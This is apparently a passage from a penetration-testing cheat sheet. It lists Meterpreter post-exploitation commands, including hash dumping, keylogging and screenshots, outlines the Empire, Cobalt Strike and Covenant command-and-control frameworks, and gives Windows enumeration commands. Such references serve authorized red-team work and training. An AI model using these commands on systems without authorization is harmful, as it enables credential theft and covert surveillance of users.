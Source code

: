 ```bash
meterpreter> hashdump
meterpreter> screenshot
meterpreter> keyscan_start
meterpreter> download file.txt
meterpreter> upload tool.exe
```

### Empire/Starkiller

```bash
# PowerShell-based post-exploitation
# Features:
# - PowerShell agents
# - Built-in modules
# - Credential harvesting
# - Lateral movement
# - Privilege escalation
```

### Cobalt Strike

```bash
# Commercial red team framework
# Features:
# - Beacon payload
# - Malleable C2 profiles
# - Advanced evasion
# - Team collaboration
# - Comprehensive post-exploitation
```

### Covenant

```bash
# .NET-based C2 framework
# Features:
# - C# agents (Grunts)
# - Web-based interface
# - Task scheduling
# - Built-in evasion
```

## System Enumeration

### Windows Enumeration

```powershell
# System information
systeminfo
wmic os get caption,version,osarchitecture

# User information
whoami /all
net user
net localgroup administrators

# Network information
ipconfig /all
route print
arp -a
netstat -ano

# Running processes
tasklist /v
```